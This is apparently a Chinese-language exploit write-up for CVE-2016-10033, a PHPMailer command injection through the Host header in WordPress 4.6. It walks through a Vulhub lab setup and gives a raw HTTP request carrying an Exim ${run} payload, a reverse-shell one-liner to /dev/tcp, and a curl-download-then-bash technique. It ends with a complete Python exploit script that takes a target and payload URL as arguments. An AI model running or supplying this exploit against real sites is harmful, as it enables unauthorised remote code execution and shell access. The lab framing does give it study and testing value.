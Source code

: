 # CVE-2016-10033

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Wordpress 4.6 任意命令执行漏洞 PwnScriptum



## 0x01 漏洞描述

phpmailer组件调用linux系统命令sendmail进行邮件发送，通过传入的SERVER_NAME获取主机名(即请求host值)，而SERVER_NAME没有经过任何过滤，从而产生漏洞，而exim4替代了sendmail的功能，即可以利用substr，run函数等进入绕过，构造payload

## 0x02 影响范围

```
WordPress <= 4.6.0
PHPMailer < 5.2.18
```

## 0x03 环境搭建

Vulhub编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，访问http://your-ip:8080/wp-admin/install.php打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。

## 0x04 漏洞复现

发送如下数据包，可见/tmp/awesome_poc已经成功创建：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}awesome_poc}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

![image.png](image/image.png)

![image.png](image/image%201.png)

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：

1. 执行的命令不能包含大量特殊字符，如 `:` 、`引号`等。
2. 命令会被转换成小写字母
3. 命令需要使用绝对路径
4. 需要知道某一个存在的用户的用户名

为了解决这些坑，漏洞作者想出了，利用`${substr{0}{1}{$spool_directory}}`代替`/`，用`${substr{10}{1}{$tod_log}}`代替空格的方法。

但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过`curl -o /tmp/rce example.com/shell.sh`的方法先将他下载到/tmp目录中，再去执行。

所以，总体来说利用过程如下：

- 编写反弹shell的exp，放到某个网页里。有如下要求：
    - 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
    - 访问该网页不能跳转，因为follow跳转的参数是-L（大写）
- 拼接成命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和命令`/bin/bash /tmp/rce`
- 将上述命令中的空格和`/`转换成`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`
- 拼接成HTTP包的Host头：`target(any -froot@localhost -be ${run{command}} null)`
- 依次发送这两个拼接好的数据包

将上述过程写成exp脚本，将脚本中target修改成你的目标，user修改成一个已经存在的用户，`shell_url`修改成你放置payload的网址。（或直接将target作为第一个参数、`shell_url`作为第二个参数）

> example.com/shell.sh的内容为：
> 
> 
> ```
> bash -i >& /dev/tcp/your-reverse—shell-ip/9999 0>&1
> ```
> 

执行即可获得shell：

```
python wordpress.py http://192.168.174.128:8080 example.com/shell.sh
```

监听9999端口，接收反弹shell：

![image.png](image/image%202.png)

## 0x05 漏洞POC

```
#!/usr/bin/env python3
import requests
import sys

# wordpress's url
target = 'http://127.0.0.1' if len(sys.argv) < 1 else sys.argv[1]
# Put your command in a website, and use the website's url
# don't contains "http://", must be all lowercase
shell_url = 'example.com/1.txt' if len(sys.argv) < 2 else sys.argv[2]
# an exists user
user = 'admin'

def generate_command(command):
    command = '${run{%s}}' % command
    command = command.replace('/', '${substr{0}{1}{$spool_directory}}')
    command = command.replace(' ', '${substr{10}{1}{$tod_log}}')
    return 'target(any -froot@localhost -be %s null)' % command

session = requests.session()
data = {
    'user_login': user,
    'redirect_to': '',
    'wp-submit': 'Get New Password'
}
session.headers = {
    'Host': generate_command('/usr/bin/curl -o/tmp/rce ' + shell_url),
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}
session.allow_redirects = False
target += '/wp-login.php?action=lostpassword'
session.post(target, data=data)

session.headers['Host'] = generate_command('/bin/bash /tmp/rce')
session.post(target, data=data)
```